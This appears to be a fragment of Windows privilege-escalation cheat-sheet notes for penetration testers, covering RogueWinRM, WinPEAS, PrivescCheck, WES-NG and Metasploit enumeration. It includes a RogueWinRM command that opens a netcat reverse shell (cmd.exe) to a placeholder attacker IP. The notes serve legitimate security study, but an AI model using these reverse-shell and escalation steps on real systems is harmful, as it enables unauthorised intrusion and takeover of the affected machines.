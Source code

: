 # Eg. use RogueWinRM exploit to accomplish both conditions.
# Run the exploit
RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4442"

Enumerate escalation options:

# WinPEAS: https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS
winpeas.exe > outputfile.txt


# PrivescCheck.ps1: https://github.com/itm4n/PrivescCheck
PS C:\> Set-ExecutionPolicy Bypass -Scope process -Force
PS C:\> . .\PrivescCheck.ps1
PS C:\> Invoke-PrivescCheck


# WES-NG: Windows Exploit Suggester - Next Generation: https://github.com/bitsadmin/wesng
wes.py --update
systeminfo > systeminfo.txt
wes.py systeminfo.txt

# Metasploit Meterpreter
multi/recon/local_exploit_suggester



Additional techniques

* PayloadsAllTheThings - Windows Privilege Escalation
* Priv2Admin - Abusing Windows Privileges
* RogueWinRM Exploit
* Potatoes
* Decoder's Blog
* Token Kidnapping
* Hacktricks - Windows Local Privilege Escalation


